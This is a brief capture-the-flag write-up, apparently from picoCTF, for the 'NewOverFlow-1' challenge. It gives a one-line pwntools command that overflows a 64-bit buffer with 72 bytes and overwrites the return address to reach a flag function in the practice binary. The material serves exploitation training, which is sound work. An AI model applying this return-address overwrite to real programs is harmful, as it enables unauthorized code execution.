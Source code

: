 # NewOverFlow-1

## Summary

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_4_3fc8f7e1553d8d36ded1be37c306f3a4 on the shell server. Source.

## Solution

```sh
cd /problems/newoverflow-1_4_3fc8f7e1553d8d36ded1be37c306f3a4; python -c 'from pwn import *; print "A"*72 + p64(0x400768)' | ./vuln
```
